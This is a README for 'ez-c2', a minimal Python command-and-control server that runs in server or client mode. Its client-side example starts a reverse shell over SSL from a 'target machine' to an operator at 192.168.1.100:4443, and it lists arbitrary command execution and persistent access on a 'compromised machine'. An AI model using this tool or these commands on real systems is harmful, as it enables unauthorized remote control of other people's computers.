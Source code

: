 init!

# Intro

ez-c2 is a lightweight and minimal Command & Control (C2) server written in Python 3. It enables remote shell access via SSL, making it easy to manage a compromised machine from the command line interface (CLI).




# Getting started

Clone the repository and set up your Python virtual environment: 

```bash
git clone https://github.com/auteqia/ez-c2.git
cd ez-c2/
python3 -m venv venv
source ./venv/bin/activate
```

Install any dependencies if required :
```bash
pip install -r requirements.txt
```


# Usage

It can be used server-side or client-side. 


## Server-side | Listening

Start the C2 server and specify the port to listen on: 
```bash
Usage: python3 script.py -listen <port>
```

Example: 
```bash
python3 script.py -listen 4443
```

## Client-side | Connecting

Run the client script on the target machine to initiate a reverse shell: 
```bash
python3 -connect <server_ip> <server_port>
```
Example: 
```bash
python3 script.py -connect 192.168.1.100 4443
```
The client will establish an SSL connection to the server and spawn a shell. 


# What can you do with ez-c2 ?

Once connected, ez-c2 allows the operator to: 

- Execute arbitrary system commands on the client-side machine
- Receive output of commands via a secure SSL tunnel
- Maintain persistent shell access (implementation dependent)
    

# What is server.crt and server.key 

server.crt is the public key of the server and server.key is the private key of the server. Please regenerate them (if you want to..) with this command :
```bash
openssl req -x509 -newkey rsa:4096 -keyout server.key -out server.crt -days 365 -nodes
```

